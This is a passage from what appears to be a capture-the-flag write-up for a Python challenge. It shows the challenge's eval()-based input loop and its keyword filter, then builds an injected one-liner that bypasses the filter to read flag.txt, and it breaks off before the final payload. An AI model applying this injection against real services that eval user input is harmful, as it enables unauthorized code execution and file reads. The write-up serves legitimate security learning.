 ```python
  except Exception as e:
    print(e)
    break
```

## Analysis
The code is very similar to the previous challenge - Picker I where I have a write-up for as well.

There is a slight difference to the previous code

### while loop
```python
while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
    break
```

The `while` loop now calls a `filter()` function which checks if the input is `win`

### `filter()`
```python
def filter(user_input):
  if 'win' in user_input:
    return False
  return True
```

This prevents our previous attack which was to enter `win`.

Now we have to be more **creative**.

Instead of invoking `win()` we will enter its code as our input in one line.

### What we want to input
```python
flag = open('flag.txt', 'r').read();flag = flag.strip();print(flag)
```

**However**, the `eval()` function does not simply execute Python code.

It evaluates a string as a **single** expression.

We have to **compress** our logic into a Python **one liner**.

The first part is easy.
```python
flag = open('flag.txt', 'r').read();flag = flag.strip();
```
can be chained as 
```python
flag = open('flag.txt', 'r').read().strip();
```
